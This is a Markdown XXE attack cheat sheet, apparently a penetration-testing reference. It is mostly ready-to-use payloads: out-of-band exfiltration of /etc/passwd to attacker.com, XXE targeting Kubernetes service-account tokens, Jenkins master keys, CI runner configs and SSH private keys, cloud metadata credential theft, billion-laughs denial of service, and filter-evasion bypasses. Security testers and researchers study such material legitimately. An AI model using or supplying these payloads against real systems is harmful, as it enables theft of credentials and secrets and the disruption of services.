

#### Parameter Entity Testing

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
  %eval;
  %exfil;
]>
<data>test</data>
```

#### Error-Based XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<data>test</data>
```

#### XXE via Content-Type Manipulation

Try changing Content-Type header from:

```
Content-Type: application/json
```

to:

```
Content-Type: application/xml
```

or:

```
Content-Type: text/xml
```

## Chaining and Escalation

### Cloud-Native & Kubernetes XXE

#### Kubernetes Admission Webhook XXE

ValidatingWebhookConfiguration and MutatingWebhookConfiguration receive XML-formatted requests:

```yaml
# Vulnerable admission webhook
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  annotations:
    # Webhook receives and parses this XML
    config: |
      <?xml version="1.0"?>
      <!DOCTYPE root [
        <!ENTITY xxe SYSTEM "file:///var/run/secrets/kubernetes.io/serviceaccount/token">
      ]>
      <config>&xxe;</config>
```

**Exploitation flow:**

```bash
# 1. Create pod with XXE payload in annotation
kubectl apply -f evil-pod.yaml

# 2. Admission webhook receives XML, processes with vulnerable parser
# 3. Service account token exfiltrated

# 4. Use token for privilege escalation
curl -k https://kubernetes.default.svc/api/v1/namespaces/default/pods \
  -H "Authorization: Bearer $(cat token)"
```

**ConfigMap XXE:**

```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: xxe-config
data:
  config.xml: |
    <?xml version="1.0"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/kubernetes/manifests/kube-apiserver.yaml">]>
    <config>&xxe;</config>
```

#### CI/CD Pipeline XXE

**Jenkins XML Config Parsing:**

```xml
<!-- config.xml for Jenkins job -->
<?xml version="1.0"?>
<!DOCTYPE project [
  <!ENTITY xxe SYSTEM "file:///var/jenkins_home/secrets/master.key">
]>
<project>
  <description>&xxe;</description>
</project>
```

**GitLab CI Artifact Processing:**

```yaml
# .gitlab-ci.yml
test:
  script:
    - echo '<?xml version="1.0"?><!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///etc/gitlab-runner/config.toml">]><root>&xxe;</root>' > report.xml
  artifacts:
    reports:
      junit: report.xml # Parsed by GitLab
```

**GitHub Actions Workflow:**

```yaml
# Vulnerable action that processes XML artifacts
- name: Parse XML Report
  uses: vulnerable/xml-parser@v1
  with:
    xml-file: |
      <?xml version="1.0"?>
      <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///home/runner/.ssh/id_rsa">]>
      <testsuites>&xxe;</testsuites>
```

**Maven/Gradle Dependency Confusion:**

```xml
<!-- malicious pom.xml in supply chain -->
<?xml version="1.0"?>
<!DOCTYPE project [
  <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=">
]>
<project>
  <modelVersion>4.0.0</modelVersion>
  <name>&xxe;</name>
</project>
```

### Parser Misconfigurations

- **DTD Processing Enabled**: XML parsers with DTD processing enabled
- **External Entity Resolution**: Parsers allowing external entity references
- **XInclude Support**: Enabled processing of XInclude statements
- **Missing Entity Validation**: No validation of entity expansion

### File Disclosure via XXE

- **Local File Access**: Reading sensitive system files
  - `/etc/passwd` (Unix user information)
  - `/etc/shadow` (password hashes on Linux)
  - `C:\Windows\system32\drivers\etc\hosts` (Windows hosts file)
  - Application configuration files
  - Source code files
  - Database credentials

### SSRF via XXE



- **Internal Network Access**: Scanning internal systems
- **Cloud Metadata Access**: Accessing metadata services

  **AWS IMDSv2** (Token-based, harder via XXE):

  ```xml
  <!-- IMDSv1 still works in legacy environments -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name">]>

  <!-- IMDSv2 requires PUT request for token first -->
  <!-- Most XML parsers can't make PUT requests, limiting XXE exploitation -->
  ```

  **Azure Instance Metadata**:

  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/metadata/instance?api-version=2021-02-01">]>
  <!-- Requires Metadata: true header, may fail in XXE -->
  ```

  **GCP Metadata v2 (2024+)**:

  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token">]>
  <!-- Now requires Metadata-Flavor: Google header -->
  <!-- Classic XXE can't set custom headers, use SSRF chain -->
  ```

  **Workarounds for header-protected metadata:**

  ```xml
  <!-- Use jar:// protocol (Java) to bypass some restrictions -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "jar:http://metadata.google.internal!/computeMetadata/v1/instance/hostname">]>

  <!-- Or chain with open redirect on same domain -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://vulnerable-app.com/redirect?url=http://169.254.169.254/latest/meta-data/">]>
  ```

### Denial of Service

- **Billion Laughs Attack**: Exponential entity expansion

  ```xml
  <!DOCTYPE data [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  ]>
  <data>&lol3;</data>
  ```

- **Quadratic Blowup Attack**: Large string repeating

  ```xml
  <!DOCTYPE data [
    <!ENTITY a "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa">
  ]>
  <data>&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;</data>
  ```

- **External Resource DoS**: Loading large or never-ending external resources

## Bypass Techniques

### Filter Evasion Techniques

- **Case Variation**:

  ```xml
  <!docTypE test [ <!ENTity xxe SYSTEM "file:///etc/passwd"> ]>
  ```

- **Alternative Protocol Schemes**:

  ```
  file:///
  php://filter/convert.base64-encode/resource=
  gopher://
  jar://
  netdoc://
  ```

- **URL Encoding**:
  ```xml
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:%2F%2F%2Fetc%2Fpasswd"> ]>
  ```

### XXE in CDATA Sections

```xml
<![CDATA[<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfil;
]>]]>
```

### XXE via XML Namespace

```xml
<ns1:root xmlns:ns1="http://example.com">
  <ns1:data xmlns:ns1="http://example.com" xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </ns1:data>
</ns1:root>
```

